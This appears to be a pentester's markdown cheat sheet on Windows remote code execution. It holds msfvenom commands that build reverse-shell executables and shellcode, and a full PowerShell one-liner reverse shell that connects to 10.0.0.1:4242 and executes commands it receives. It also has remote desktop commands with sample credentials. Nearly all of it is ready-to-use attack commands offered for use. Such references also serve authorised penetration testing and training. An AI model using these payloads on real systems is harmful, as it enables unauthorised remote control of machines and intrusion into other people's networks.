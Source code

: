 # Windows Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Shell Code

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using PowerShell

``` bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## <a href='https://miloserdov.org/?p=4516' target="blank">Windows remote desktop from Linux</a>

``` bash
rdesktop $ip -u Tester -p Pass

xfreerdp /f /u:Tester /p:<Pass> /v:192.168.0.101 /drive:D,/tmp
```